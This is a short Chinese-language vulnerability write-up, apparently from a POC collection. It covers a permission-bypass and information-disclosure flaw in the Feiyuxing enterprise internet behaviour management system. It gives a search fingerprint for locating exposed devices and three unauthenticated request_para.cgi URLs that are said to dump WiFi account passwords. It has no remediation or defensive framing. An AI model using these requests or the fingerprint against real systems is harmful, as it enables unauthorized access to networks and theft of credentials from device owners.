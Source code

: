 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

<a-checkbox checked>飞鱼星 企业级智能上网行为管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="飞鱼星企业级智能上网行为管理系统"</a-checkbox></br>

## 漏洞复现

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![img](../../../.vuepress/public/img/fy-4.png)